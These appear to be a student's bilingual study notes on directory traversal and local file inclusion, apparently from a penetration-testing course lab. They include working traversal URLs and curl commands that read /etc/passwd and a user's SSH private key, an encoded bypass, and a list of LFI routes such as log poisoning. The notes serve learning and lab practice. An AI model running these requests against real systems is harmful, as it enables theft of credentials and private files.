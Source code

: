 * URL encode/Unicode encode
* HTML encode 
* base64 encode

#  Directory Traversal

>[!warning ] 小節重點
>絕對路徑與相對路徑

## 絕對路徑
>we specify the full file system path including all subdirectories. We can refer to an absolute path from any location in the filesystem. Absolute paths start with a forward slash (/), specifying the root file system1 on Linux. From there, we can navigate through the file system.
## 相對路徑
>從某個目錄為出發點，用…/向後的那種

* 判斷點
    * Windows測試路徑:`\Windows\System32\drivers\etc\host`
    * Linux路徑測試: `/etc/passwd`
* 有可能有path traversal的範例
``` 
https://example.com/cms/login.php?language=en.html
```
``` 
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
``` title:pg_Bottleup
curl http://192.168.154.246:8080/view?page=/..%%32%66..%%32%66/etc/passwd
```
## 搭配curl使用
* 用crul抓取id_rsa
```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
* 用crul抓取設定絕對路徑
```
curl --path-as-is http://192.168.209.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt
```
# Local File Include(LFI)

>[!warning] 小節目錄
>如果可以控制以下內容，就可以做到Local File Include 
> * File upload
> * Sql Injection (into out file)
> * File posion (大部分的.log都沒有權限)
> * File posion (/proc/self/environ – user自己的環境變數 )
 > * session file
